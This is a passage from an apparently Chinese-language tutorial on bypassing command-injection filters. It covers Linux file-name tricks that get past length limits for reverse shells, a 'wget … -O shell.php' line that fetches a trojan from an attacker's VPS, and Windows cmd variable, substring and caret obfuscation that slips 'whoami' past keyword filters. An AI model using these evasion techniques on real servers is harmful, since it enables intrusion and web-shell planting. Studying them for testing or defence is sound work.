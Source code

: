 [![cHYry4.png](https://z3.ax1x.com/2021/04/20/cHYry4.png)](https://imgtu.com/i/cHYry4)

读取到了``flag``的内容，无论这个文件里面有木有其它的内容，都可以执行我们想要的命令。

文件构造用到了如下知识点：

```cmd
Linux下可以用 > a 来创建文件名为a的空文件
ls -t > test 则会将目录按照时间排序(先创建的在后面)后写入test文件中
sh 命令可以从一个文件中读取命令来执行
```

反弹``shell``命令比较长就可以使用这种方式去绕过长度限制，如果服务器能连外网还可以使用命令``wget 网址 -O shell.php``去执行我们自己的``vps``上面的木马文件。

> ##### set命令

知识点：用两个``%``括起来的变量，会输出变量的值。

```
set a=1		#设置变量a，值为1
echo a		#此时输出的结果为"a"
echo %a%		#此时输出的结果为"1"
```

进阶利用：

```
set a=who
set b=ami
%a%%b%		#正常执行whoami
call %a%%b%		#正常执行whoami
```

[![cboIQf.png](https://z3.ax1x.com/2021/04/21/cboIQf.png)](https://imgtu.com/i/cboIQf)

> ##### 切割字符

```
set a=whoami
%a:~0%		#取出所有字符，所以正常执行命令
%a:~0,6%		#从开始切割6个字符，刚好是whoami，正常执行
%a:~0,5%		#切割后为whoam，不是系统命令，不能执行
```

[![cbTPw4.png](https://z3.ax1x.com/2021/04/21/cbTPw4.png)](https://imgtu.com/i/cbTPw4)

然后，可以考虑的东西就来了：

```
set a=abc qwe		#
wh^o%a:~0,1%mi		#然后截断整理后就变为了:wh^o^ami,执行成功
```

[![cbTWBF.png](https://z3.ax1x.com/2021/04/21/cbTWBF.png)](https://imgtu.com/i/cbTWBF)

